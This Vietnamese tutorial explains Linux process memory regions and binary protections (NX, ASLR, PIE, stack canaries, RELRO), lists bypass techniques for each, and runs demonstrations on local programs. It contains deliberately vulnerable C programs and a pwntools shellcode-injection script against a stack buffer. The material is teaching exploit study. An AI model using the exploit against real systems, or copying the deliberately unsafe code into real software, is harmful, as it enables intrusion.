### Process Memory Layout
---
- `Memory layout` trong 1 chương trình cho ta thấy cách `data` dược lưu vào bộ nhớ trong quá trình chương trình thực thi. 
- Nó giúp cho `developers` có thể hiểu và quản lí được bộ nhớ tốt hơn. Qua đó có thể optimizing, debug... hiệu quả hơn.
- Memory được chia thành nhiều vùng memory (`memory mappings`) khác nhau như `stack`, `code`, `data`, `wx`, `rodata` (Các mappings thường thấy).
- Mình sẽ tìm hiểu về các mappings trên.

---
#### CODE segment (CODE / .text)
CODE Segment là vùng bộ nhớ chứa toàn bộ mã lệnh thực thi (machine code) của chương trình.
Khi một tiến trình được nạp vào bộ nhớ, loader sẽ map phần `.text` của file ELF vào memory dưới dạng một segment chỉ cho phép read và execute.
Vùng này sẽ bao gồm:
- Hàm `main()` và tất cả các biến, hàm do `coder` định nghĩa.

- Code của PLT nếu chương trình dùng dynamic linking.

- Nói chung, nó sẽ chứa toàn bộ mã thực thi của chương trình. Và trong đó ta có thể sử dụng phân mục này để lấy các mã thực thi của chương trình để có thể sử dụng cho các kĩ thuật như ROP(Return-Oriented Programming).

CODE segment thường nằm ở vùng địa chỉ thấp nhất của process (ngay trên vùng ELF header). 

Nếu chương trình không PIE(đề cập ở phía dưới), segment này luôn load tại địa chỉ cố định, thường là 0x400000. Nếu PIE bật, địa chỉ .text bị random hóa mỗi lần chạy (bị ảnh hưởng bởi ASLR).


Một số kĩ thuật attack thường thấy trong mapping này:
- Ret2win
- ROP (Return-Oriented Programming)
- Sigreturn-Oriented Programming (SROP)
- JOP (Jump-Oriented Programming)
- v.v
---
#### RODATA segment (.rodata)
RODATA (Read-Only Data) là vùng bộ nhớ chứa dữ liệu chỉ đọc của chương trình. Đây là nơi coder đặt:
- String literal (ví dụ "Hello world").
- Các hằng số (const int, const char*, bảng lookup cố định).
- Các bảng do coder tạo ra (jump table, metadata).
- v.v

Vùng này được đánh dấu là chỉ đọc (read-only) để ngăn việc ghi đè dữ liệu trong quá trình thực thi. Điều này giúp bảo vệ tính toàn vẹn của dữ liệu quan trọng và ngăn chặn các lỗi không mong muốn do ghi đè.

Ví dụ trong đoạn code sau:
```c
#include<stdio.h>

const char *message = "Hello, World!\n";

int main(int argc, char *argv[]) {
    printf("%s", message);
    return 0;
}
```

Phần string literal "Hello, World!\n" sẽ được lưu trong segment .rodata.



Một số kĩ thuật attack thường thấy trong mapping này:
- Dùng để leak địa chỉ libc, ... (vì nó không thay đổi).
- Format String Attack
- v.v

---
#### DATA segment (.data + .bss)
DATA segment là mapping thứ 3 trong bố cục bộ nhớ của tiến trình, nằm ngay sau Code và Rodata.
DATA segment bao gồm hai phần chính: .data và .bss.
- .data segment: Chứa các biến toàn cục và biến tĩnh đã được khởi tạo bởi coder. 
- Ví dụ:
    ```c
    int global_var = 42; // Biến toàn cục đã khởi tạo
    static int static_var = 100; // Biến tĩnh đã khởi tạo
    ```
- .bss segment: Chứa các biến toàn cục và biến tĩnh chưa được khởi tạo. Các biến này sẽ được tự động khởi tạo về giá trị 0 khi chương trình bắt đầu thực thi. 
- Ví dụ:
    ```c
    int uninitialized_var; // Biến toàn cục chưa khởi tạo
    static int uninitialized_static_var; // Biến tĩnh chưa khởi tạo
    ```
Ngoài ra, nó còn bao gồm 1 số section khác như .got, .got.plt, .dynamic,...

DATA segment được đánh dấu là có thể đọc và ghi (read-write), cho phép chương trình thay đổi giá trị của các biến trong quá trình thực thi.



Một số kĩ thuật attack thường thấy trong mapping này:
- Global Offset Table (GOT) Overwrite
- Data Structure Overwrite (ví dụ: Overwrite function pointer, vtable pointer)
- Làm địa cho pivot stack
- v.v

---
#### STACK segment
Stack segment là vùng bộ nhớ được sử dụng để lưu trữ các biến cục bộ, tham số hàm, địa chỉ trả về và các thông tin liên quan đến ngữ cảnh thực thi của chương trình.
- Stack hoạt động theo nguyên tắc LIFO (Last In, First Out), nghĩa là phần tử được thêm vào cuối cùng sẽ được lấy ra đầu tiên.
- Mỗi khi một hàm được gọi, một khung stack (stack frame) mới sẽ được tạo ra để lưu trữ các biến cục bộ và tham số của hàm đó. Khi hàm kết thúc, khung stack sẽ được giải phóng và con trỏ stack sẽ trở về vị trí trước khi hàm được gọi.
- Stack thường có kích thước giới hạn và có thể bị tràn (stack overflow) nếu có quá nhiều dữ liệu được đẩy vào stack vượt quá kích thước cho phép.


Một số kĩ thuật attack thường thấy trong mapping này:
- Stack Buffer Overflow
- Return-to-libc
- Stack Canaries Bypass
- v.v

---
#### WX segment (Heap + mmap with PROT_WRITE | PROT_EXEC)
WX segment là vùng bộ nhớ đặc biệt được cấp phát để lưu trữ mã lệnh có thể ghi và thực thi (writeable and executable).
- Vùng này thường được sử dụng trong các tình huống đặc biệt như Just-In-Time (JIT) compilation, nơi mã lệnh được tạo động trong quá trình thực thi và cần phải được thực thi ngay lập tức.
- Tuy nhiên, việc cho phép ghi và thực thi trên cùng một vùng bộ nhớ tạo ra một lỗi hổng bảo mật nghiêm trọng, vì kẻ tấn công có thể ghi mã độc vào vùng này và sau đó thực thi nó, dẫn đến việc chiếm quyền điều khiển chương trình.
- Do đó, nhiều hệ thống hiện đại áp dụng các biện pháp bảo vệ như Data Execution Prevention (DEP) để ngăn chặn việc thực thi mã từ các vùng bộ nhớ có thể ghi.



WX có thể xuất hiện khi chương trình sử dụng `mmap` với các cờ `PROT_WRITE | PROT_EXEC` hoặc khi sử dụng các thư viện JIT như `libjit`, `LLVM`, `V8`,...

Một số kĩ thuật attack thường thấy trong mapping này:
- Shellcode Injection
- JIT Spraying
- v.v

---
#### Heap segment
Heap segment là vùng bộ nhớ được sử dụng để lưu trữ dữ liệu động trong quá trình thực thi của chương trình.
- Khác với stack, heap không tuân theo nguyên tắc LIFO và có thể mở rộng hoặc thu hẹp kích thước tùy thuộc vào nhu cầu của chương trình.
- Dữ liệu trên heap được cấp phát và giải phóng thông qua các hàm như `malloc()`, `calloc()`, `realloc()` và `free()` trong ngôn ngữ C.
- Heap thường được sử dụng để lưu trữ các cấu trúc dữ liệu phức tạp như danh sách liên kết, cây, bảng băm và các đối tượng trong lập trình hướng đối tượng. 


Một số kĩ thuật attack thường thấy trong mapping này:
- Heap Overflow
- Use-After-Free
- Heap Spraying
- v.v

---
#### Kết luận
Bên trên là những vùng memory mappings thường thấy trong một process. Mỗi vùng có chức năng và đặc điểm riêng, ảnh hưởng đến cách chương trình hoạt động và bảo mật của nó. Bên cạnh đó ta còn có các protections như NX, ASLR, PIE, Canary,... để bảo vệ các mappings này khỏi các cuộc tấn công.

---
### Protections
- Các protections là các cơ chế bảo vệ được tích hợp trong hệ điều hành và trình biên dịch nhằm ngăn chặn các cuộc tấn công khai thác lỗ hổng bảo mật trong phần mềm.
- Mục tiêu chính của các protections là làm tăng độ khó cho attacker trong việc khai thác các lỗ hổng như buffer overflow, format string, use-after-free, v.v.
- Dưới đây mình sẽ tìm hiểu về một số protections phổ biến như NX, ASLR, PIE, Canary, RELRO.

#### NX (No eXecute)
NX bit (No-eXecute bit) là một cơ chế bảo vệ bộ nhớ được hỗ trợ bởi CPU và hệ điều hành, dùng để đánh dấu một vùng nhớ không được phép thực thi.

Khi một vùng nhớ được đánh dấu là NX, CPU sẽ không cho phép thực thi mã lệnh từ vùng đó, giúp ngăn chặn các cuộc tấn công như buffer overflow, nơi kẻ tấn công cố gắng chèn và thực thi mã độc trong vùng nhớ dữ liệu.

Nếu một chương trình cố gắng nhảy đến một vùng có cờ NX, CPU sẽ trigger segmentation fault (SIGSEGV).


Minh họa đơn giản với chương trình này:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char *gets(char *s); 

void ksan() {
    char buf[100];
    printf("Buf address: %p\n", buf);
    printf("Input: ");
    gets(buf);   
    printf("You entered: %s\n", buf);
}

int main() {
    ksan();
    return 0;
}
```

Mình sẽ compile với lệnh:
```bash
gcc -fno-stack-protector -z execstack -no-pie -o main main.c
```

Trong đó:
- `-fno-stack-protector`: Tắt stack canary.
- `-z execstack`: Cho phép stack có thể thực thi (disable NX on stack).
- `-no-pie`: Tắt PIE.


Có thể thấy rằng ở trên stack, ta có permission `rwx` điều đó cho thấy ta có thể chèn shellcode vào đây sao đó có thể thực thi chúng.

Vì buf được lưu trên stack, nên mình sẽ chèn shellcode vào buf và overwrite địa chỉ trả về để nhảy vào buf.

Mình sẽ debug để tìm offset tới saved RIP:

Vậy offset tới saved RIP là 120 bytes.

Script exploit:
```python
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF("./main")
libc = elf.libc

p = process(elf.path)

p.recvuntil(b"Buf address: ")
buf_addr = int(p.recvline().strip(), 16)

log.info(f"Buffer address: {hex(buf_addr)}")

offset =  120 # find with cyclic pattern
shellcode = asm(shellcraft.sh())
p.send(shellcode.ljust(offset, b"A") + p64(buf_addr))

p.interactive()
```


Như ở trên mình có đề cập, khi chương trình cố gắng nhảy vào stack để thực thi shellcode, CPU sẽ phát hiện vùng nhớ này có cờ NX và ngăn chặn việc thực thi, dẫn đến lỗi segmentation fault (SIGSEGV).

Mình sẽ compile lại nhưng không có `-z execstack` nữa để bật NX trên stack:
```bash
gcc -fno-stack-protector -no-pie -o main  main.c 
```



Lúc này stack đã không có permission `x` nữa, khi mình chạy exploit thì sẽ bị segmentation fault:


Một số kĩ thuật để bypass NX:
- Return-to-libc (Ret2libc)
- ROP (Return Oriented Programming)
    - Tuy không thể execute shellcode trực tiếp nhưng ta vẫn có thể sử dụng các instruction có sẵn trong binary để xâu chuỗi lại thành 1 ROPchain.
- Ret2syscall
- v.v
---
#### ASLR (Address Space Layout Randomization)
ASLR (Address Space Layout Randomization) là kỹ thuật bảo mật của hệ điều hành nhằm ngẫu nhiên hóa địa chỉ vùng nhớ của tiến trình mỗi lần chạy.

Các vùng bị random gồm:

- Địa chỉ stack

- Địa chỉ heap

- Địa chỉ libc / shared libraries

- Địa chỉ mmap

- Địa chỉ vdso

- Đôi khi cả text segment (khi binary bật PIE)

Mục tiêu:

-  Khiến attacker không biết trước vị trí các hàm, biến, gadget ROP,...
-  Làm cho ret2libc, ROP chain khó thực hiện hơn,...

Mình sẽ minh họa ASLR bằng ví dụ đơn giản sau:

```c
#include <stdio.h>
#include <stdlib.h>

int global_var = 123;  

int main() {
    int stack_var = 0x1234;      
    int *heap_var = malloc(8);    

    if (!heap_var) {
        perror("malloc");
        return 1;
    }

    *heap_var = 0x5678;

    printf("Address of main        : %p (code / text segment)\n", (void*)main);
    printf("Address of global_var  : %p (.data / .bss)\n", (void*)&global_var);
    printf("Address of stack_var   : %p (stack)\n", (void*)&stack_var);
    printf("Address of heap_var    : %p (heap - pointer)\n", (void*)heap_var);
    printf("Address of printf      : %p (libc)\n", (void*)printf);

    free(heap_var);
    return 0;
}
```


Với 2 lần chạy khác nhau đã cho ra các địa chỉ khác nhau cho các vùng bộ nhớ như stack, heap, libc,... Vì vậy ASLR đã hoạt động.

Thực tế, trong ASLR các vùng nhớ không bị random hoàn toàn, mà chúng chỉ dịch chuyển (shift) dựa trên một offset ngẫu nhiên.

Cụ thể:
- Tất cả địa chỉ trong một vùng (stack, heap, libc, binary PIE, mmap)
    - Bằng base_address + fixed_offset
- Fixed_offset (offset bên trong file ELF)
    - Không thay đổi giữa các lần chạy
    - Chỉ base_address bị random.

Vì vậy, ASLR có thể bị bypass thông qua các kỹ thuật như info leak, brute-force, hoặc sử dụng các lỗ hổng khác trong hệ thống,...

Một số kỹ thuật để bypass ASLR:
- Info Leak
- Brute-force
- Partial overwrite
- v.v

#### PIE (Position Independent Executable)
PIE (Position Independent Executable) là một dạng binary mà toàn bộ code (.text), biến toàn cục (.data, .bss) và địa chỉ hàm đều có thể được load vào bất kỳ địa chỉ nào trong memory.

Binary PIE chứa relative addressing, giúp nó không phụ thuộc vào base address cố định.

Mục tiêu:

- Kết hợp với ASLR
    - Làm cho địa chỉ code thay đổi hoàn toàn mỗi lần chạy.
- Chống exploit khi chỉ dựa vào địa chỉ cố định.

Ví dụ:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char *gets(char *s); 

char buf[100];
void ksan() {
    printf("Buf address: %p\n", buf);
    printf("Input: ");
    gets(buf);   
    printf("You entered: %s\n", buf);
}

int main() {
    ksan();
    return 0;
}
```

Compile với PIE:
```bash
gcc -pie -o main main.c
```


Có thể thấy địa chỉ của `buf` được lưu trong `.data` segment đã thay đổi so với lần chạy trước đó.

Giờ hãy compile lại với `-no-pie` để tắt PIE:
```bash
gcc -no-pie -o main main.c
```


Có thể thấy địa chỉ của `buf` không thay đổi giữa các lần chạy.

Như đã đề cập, PIE làm cho địa chỉ code thay đổi hàm toàn nhưng không random hoàn toàn (vì fixed_offset không đổi).

Lớp bảo vệ này vẫn có thể bị bypass khi bị leak địa chỉ code và tính toán base address...

Các kỹ thuật để bypass PIE:
- Info Leak
- Brute-force
- v.v

#### Canary
Stack Canary là một cơ chế bảo vệ của trình biên dịch (GCC, Clang), dùng để phát hiện tràn bộ nhớ (buffer overflow) trên stack trước khi attacker ghi đè được return address.

Canary là một giá trị ngẫu nhiên được đặt giữa vùng stack của hàm:
```
[ local buffer ]
[ saved RBP ]
[ CANARY ]       ← giá trị bí mật
[ return address ]
```
Khi attacker overflow và làm thay đổi giá trị này thì chương trình phát hiện và sẽ crash ngay lập tức trước khi return address bị ghi đè.

Cơ chế hoạt động của canary:
- Khi hàm được gọi, một giá trị canary ngẫu nhiên được tạo ra và lưu vào stack (thường là ở vị trí trước saved RBP).
- Trước khi hàm trả về, giá trị canary được kiểm tra. Nếu giá trị này không khớp với giá trị ban đầu, chương trình sẽ phát hiện tràn bộ nhớ và thường sẽ kết thúc ngay lập tức (abort).
    ```
    *** stack smashing detected ***
    Aborted (core dumped)
    ```
- Nếu giá trị canary không bị thay đổi, hàm sẽ trả về bình thường.

Ví dụ:
```c
#include <stdio.h>

char *gets(char *s); 

int main() {
    char buf[15];
    gets(buf);  
    printf(buf);

    return 0;
}
```

Compile với không có canary:
```bash
gcc -fno-stack-protector -o main main.c
```


Complile với có canary:
```bash
gcc -o main main.c
```


Có thể thấy rằng có 1 canary được đặt ngay thức saved RBP.


Khi mình chạy tiếp và nhập input overwrite canary 1 phần, chương trình đã phát hiện stack smashing và abort.


Tuy vậy, stack canary vẫn có thể bị bypass thông qua các lỗ hổng hoặc sử dụng các kĩ thuật để leak giá trị canary như format string attack, info leak,...

Ví dụ với chương trình trên mình sẽ sử dụng format string đẻ leak canary.


Các kĩ thuật để bypass canary:
- Info Leak (Format String Attack, v.v)
- Brute-force
- v.v
---
#### RELRO (RELocation Read-Only)
RELRO (RELocation Read-Only) là cơ chế bảo vệ trong hệ thống ELF nhằm ngăn tấn công ghi đè bảng GOT (Global Offset Table) — một trong những mục tiêu phổ biến khi khai thác lỗ hổng overflow, format string hoặc arbitrary write.

RELRO có nhiệm vụ:

- Sắp xếp lại các segment trong ELF sao cho GOT nằm trước .bss
- Đánh dấu vùng chứa GOT thành read-only sau khi linker đã resolve các symbol
- Giảm thiểu tấn công `GOT overwrite` và `ret2plt hijack`

Linux hỗ trợ 2 mức: 
- Partial RELRO
    - GOT vẫn writable
    - Chỉ sắp xếp lại memory layout ELF để giúp chống lỗi heap/stack tràn GOT
    - Không làm GOT read-only
    - Dễ bị tấn công overwrite GOT entry
- Full RELRO.
    - GOT được đánh dấu read-only sau khi linker resolve symbol
    - Ngăn chặn hoàn toàn việc overwrite GOT entry
    - Cần thời gian load lâu hơn do phải resolve tất cả symbol lúc khởi động

Ví dụ:
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

int main() {
    unsigned long addr;
    unsigned long value;

    printf("Address to write (hex, e.g., 0x1234abcd): ");
    scanf("%lx", &addr);

    printf("Value to write (hex): ");
    scanf("%lx", &value);

    unsigned long *ptr = (unsigned long *)addr;

    printf("Writing 0x%lx to address %p ...\n", value, (void*)ptr);

    *ptr = value;

    puts("Done!\n");
    return 0;
}
```

Compile với Partial RELRO:
```bash
gcc -fno-stack-protector -no-pie -o main main.c
```



Khi chạy chương trình, sau đó overwrite got entry của `puts`, có thể thấy vì GOT vẫn writable nên việc overwrite thành công. (GOT của puts bị overwrite nên `puts("Done!\n")` không thực thi được).

Compile với Full RELRO:
```bash
gcc -fno-stack-protector -no-pie \
    -Wl,-z,relro,-z,now \
    -o main main.c
```


Thử overwrite GOT entry của `puts` lần nữa.


Chương trình vẫn hoạt động bình thường, bởi vì lúc này GOT đã được save ở vùng read-only, việc overwrite bị ngăn chặn.


Các kĩ thuật để bypass RELRO:
- Info Leak để lấy địa chỉ libc
- v.v